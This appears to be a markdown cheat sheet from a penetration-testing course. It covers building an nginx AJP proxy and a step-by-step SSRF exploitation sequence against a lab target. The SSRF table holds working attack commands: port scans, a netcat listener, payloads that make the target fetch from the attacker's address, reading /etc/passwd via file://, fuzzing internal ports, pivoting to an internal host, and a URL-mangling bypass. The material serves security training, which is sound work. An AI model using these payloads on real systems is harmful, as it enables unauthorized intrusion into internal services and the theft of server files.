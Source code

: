 # 📜 Server Side Attacks Cheat Sheet

### Nginx Reverse Proxy & AJP

| **Command**                                                                                                                                 | **Description**                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz`                                                                                       | Downloading nginx                                                                        |
| `tar -xzvf nginx-1.21.3.tar.gz`                                                                                                             | Extracting nginx tar file                                                                |
| `git clone https://github.com/dvershinin/nginx_ajp_module.git`                                                                              | Cloning nginx\_ajp source code                                                           |
| `cd nginx-1.21.3`                                                                                                                           | Navigating to nginx directory                                                            |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server                |
| `make`                                                                                                                                      | GNU make utility to maintain groups of programs                                          |
| `sudo make install`                                                                                                                         | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx`                                                                                                                                | Starting the nginx server                                                                |

### SSRF Exploitation Example

| **Command**                                                                                                       | **Description**                                                                |
| ----------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                                                | Scanning the ports of the external target                                      |
| `curl -i -s -L http://<TARGET IP>`                                                                                | Interacting with the target and following redirects                            |
| `nc -lvnp 8080`                                                                                                   | Starting a netcat listener to test for SSRF                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                                         | Testing for SSRF vulnerability                                                 |
| `python3 -m http.server 9090`                                                                                     | Starting the python web server                                                 |
| `sudo pip3 install twisted`                                                                                       | Installing the ftp server                                                      |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                                          | Starting the ftp server                                                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`                              | Retrieving a remote file through the target application (HTTP Schema)          |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                                       | Retrieving a local file through the target application (File Schema)           |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                                          | Generating a wordlist of possible ports                                        |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`                            | Fuzzing for ports on the internal interface                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                                    | Interacting with the internal interface on the discovered port                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`                              | Interacting with the internal application                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`                      | Discovering web application listening in on localhost                          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`                   | Modifying the URL to bypass the error message                                  |